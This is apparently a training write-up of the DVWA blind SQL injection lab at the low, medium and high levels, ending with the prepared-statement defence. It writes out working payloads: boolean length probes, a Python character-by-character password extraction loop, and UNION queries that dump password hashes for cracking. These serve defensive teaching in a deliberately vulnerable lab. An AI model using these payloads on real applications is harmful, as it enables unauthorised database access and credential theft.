 ```yaml
---
description: http://localhost/DVWA/vulnerabilities/sqli_blind/
---
```


# SQLi Blind --

<details>

<summary>What is a SQL Injection Blind?</summary>

Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

Many techniques such as [`UNION` attacks](https://portswigger.net/web-security/sql-injection/union-attacks) are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the injected query within the application's responses. It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used.

</details>

{% embed url="https://portswigger.net/web-security/sql-injection/blind" %}
[https://portswigger.net/web-security/sql-injection/blind](https://portswigger.net/web-security/sql-injection/blind)
{% endembed %}

{% hint style="info" %}
Using BurpSuite and the FoxyProxy extension is recommended.
{% endhint %}

## Low

We've an input type text that received an User ID in I by user and submit request using the Submit button:

<div align="left">

<figure><img src="../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

</div>

In SQL Blind we obtain a boolean result (exist or not exist) of our query, then we need to be able to ask correctly information from DB, make script can be the best approach.

<figure><img src="../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

This's our request captured by Burp Suite, while here below there's a php source code:

<figure><img src="../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

How the same in the low level, there're not input sanitation, then we can send what we want into input type text field. In this case request will arrive to DB located into webserver, but query will be preparared using php language.

Analyzing source code, we know that mysql query is:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```

#### 1st Payload (length)

Regarding query and that our input type value is insert into $id variable, we need to do multiple question to DB regarding password length.

Then in this case, we can use following payload: `1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 31)='x' #`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 30)='x' #';
```

_admin password length is > 31?_

<div align="left">

<figure><img src="../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

</div>

User ID exists in the DB = true.

We need to continue to ask questions for obtain a correct value.

_admin password length is > 32?_

<div align="left">

<figure><img src="../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

</div>

No! Answer is wrong, then regarding last two answer, we know that admin password length has 32 characters.

Of course we can use an automated python script to do this automatically:

{% embed url="https://github.com/LeonardoE95/DVWA/blob/main/src/sqli_blind/low.py" %}

#### 2nd Payload (value)

starting with the first character, up to the last (which we know from the length we have just obtained) we must repeatedly query the DB asking whether or not the password character of the i-th position includes one of the possible alphanumeric characters.

```python
for i in range(1, password_length+1):
    for c in ALPHABET:
        sql_payload = f"1' AND (select substring(password, {i}, 1) from users where first_name='{username}')='{c}' #"
        if sql2bool(sql_payload):
            password += c
            print(c, end="", flush=True) # to print in a cool way
            break
```

Then, our query will be:

`1' AND (select substring(password, 1, 1) from users where first_name='admin')='5' #`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' AND (select substring(password, 1, 1) from users where first_name='admin')='5' #';
```

Is the first character of admin password equals to 'a'?

<div align="left">

<figure><img src="../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

</div>

No! again, is the first character of admin password equals to '5'?

<div align="left">

<figure><img src="../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

</div>

Very good, the first character is 5, then we can continue to increment index and redo all questions until the final string will be discovered.

{% hint style="warning" %}
The input is not sanitized, so I can execute any (potentially malicious) command.
{% endhint %}

## Medium

Here, there're a select with range (1 to 5) to set User ID.

<div align="left">

<figure><img src="../.gitbook/assets/image (226).png" alt=""><figcaption></figcaption></figure>

</div>

In addition to low level, in the code below there're an escape string control and query variable $ID isn't enclosed by ''.



Our request include an ID + Submit values.

<figure><img src="../.gitbook/assets/image (230).png" alt=""><figcaption></figcaption></figure>

But, we can modify ID value using Burp Suite repeater function:

<figure><img src="../.gitbook/assets/image (231).png" alt=""><figcaption></figcaption></figure>

#### 1st Payload

Remembering that $ID variable isn't enclosed by '', escape string control isn't a matter.

Then in this case, we can use following payload: `1 OR 1=1 --`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = 1 OR 1=1 -- ;
```

in the where condition there're a first search to user with this id '' OR a true condition, plus a comment.

<figure><img src="../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

#### 2nd Payload

How the low level, regarding that query selects: first\_name, last\_name field from users table, we can use [UNION](https://www.w3schools.com/sql/sql\_union.asp) operator to add a new query:  1 `UNION select first_name,password from users --`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = 1 UNION SELECT first_name,password FROM users -- ';
```

<figure><img src="../.gitbook/assets/image (233).png" alt=""><figcaption></figcaption></figure>

We obtain hash of psw to eventually crack using tools such as: [Hashcat](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/hashcat) and [John The Ripper](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/john-the-ripper).

Note: Every `SELECT` statement within `UNION` must have the same number of columns.

{% hint style="warning" %}
The input is not sanitized, so I can execute any (potentially malicious) command.
{% endhint %}

## High

In this level clicking on first page, we obtain a redirect to a second page to submit effectively our Session ID:

<figure><img src="../.gitbook/assets/image (228).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

<div align="left">

<figure><img src="../.gitbook/assets/image (234).png" alt=""><figcaption></figcaption></figure>

</div>

#### 1st Payload

In this case payload is always the same of low level, but we need to add it into second page, infact we've two request (GET and POST)

However, we can use following payload: `1' OR 1=1 --`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' OR 1=1 -- ';
```

that permit us to see all DB results:

<figure><img src="../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

#### 2nd Payload

How last levels, we can use [UNION](https://www.w3schools.com/sql/sql\_union.asp) operator to add a new query:  `' UNION select first_name,password from users --`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = '' UNION SELECT first_name,password FROM users -- ';
```

<div align="left">

<figure><img src="../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

</div>

We obtain hash of psw to eventually crack using tools such as: [Hashcat](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/hashcat) and [John The Ripper](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/john-the-ripper).

Note: Every `SELECT` statement within `UNION` must have the same number of columns.

{% hint style="warning" %}
The input is not sanitized, so I can execute any (potentially malicious) command.
{% endhint %}

## Impossible

<figure><img src="../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

The best solution is to sanitize query using a prepared statement, to delineate part static and dinamic (id) of query; take a binding parameter to check if is it an integer or char; insert a control to count rows number as result; and use a [CSRF](csrf.md) token.

All this permits to separate sql code with sql data/parameter insert by user.

## References

For the making of this solution the following resource were used:

* [https://github.com/LeonardoE95/DVWA/tree/main/src/sqli\_blind](https://github.com/LeonardoE95/DVWA/tree/main/src/sqli\_blind)

{% content-ref url="https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/main-contents/15-sql-injection" %}
[15 - SQL Injection](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/main-contents/15-sql-injection)
{% endcontent-ref %}

{% content-ref url="https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/sqlmap" %}
[SQLMap](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/sqlmap)
{% endcontent-ref %}
